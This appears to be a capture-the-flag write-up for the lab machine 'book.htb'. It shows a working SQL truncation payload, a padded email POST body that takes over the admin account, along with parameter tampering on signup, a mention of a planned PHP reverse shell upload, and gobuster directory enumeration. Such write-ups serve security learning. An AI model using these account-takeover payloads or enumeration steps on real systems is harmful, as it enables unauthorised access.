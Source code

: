 We add a reverseshell.php file with our config in the working directory,
this should become useful soon.

Will try to upload the reverse shell to the collections forms, and find
if we can get it executed.

We download every (4) files of the /books.php page. The link is:
```
http://book.htb/download.php?file=1
```
Incrementing that `file=x` parameter will download empty pdf files
(5.pdf => 0 bytes) etc...

Using the 4 files, we look for perhaps stegano clues but no luck yet ?
Trying strings on the files ... nothing worth noting.

We'll play with the register method with Burp. Forwarding the register POST req
we try to add a "role=admin" parameter on account creation. When going to
/profile.php we find that our user still has role set as "User".

Upon inspecting the sign up page html, we find a javascript function used to
validate the sign up form:
```
function validateForm() {
  var x = document.forms["myForm"]["name"].value;
  var y = document.forms["myForm"]["email"].value;
  if (x == "") {
    alert("Please fill name field. Should not be more than 10 characters");
    return false;
  }
  if (y == "") {
    alert("Please fill email field. Should not be more than 20 characters");
    return false;
  }
}
```
This is frontend validation of a form, which means perhaps backend does not
validate whatever is sent. This hints that we are in presence of a SQL
Truncation vulnerability.
Using BurpSuite, we intercept and edit the following POST /index.php body:
```
name=admin&email=admin%40book.htb%20%20%20%20%20%20%20%20%20%20%20%20%20%20%201&password=SHADISLOVE
```
We've added URL encoded whitespace after "admin@book.htb" then a random char.
When the SQL engine validates the command, it does not find a collision with the
email, then truncates the whitespace, effectively setting our password to the
admin@book.htb account. Navigating to the /admin/ panel, we are able to login
as an admin in the platform.

As admin, we'll enumerate the accessible admin webpages using gobuster and a
bigger wordlist. Perhaps using common.txt or small.txt did not yield everything
there was to be found:
```
$ gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c "PHPSESSID=70c2qupsr499gqm42v1t8hd8vh" --url http://book.htb/admin/ -x .php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://book.htb/admin/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] Cookies:        PHPSESSID=70c2qupsr499gqm42v1t8hd8vh
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
```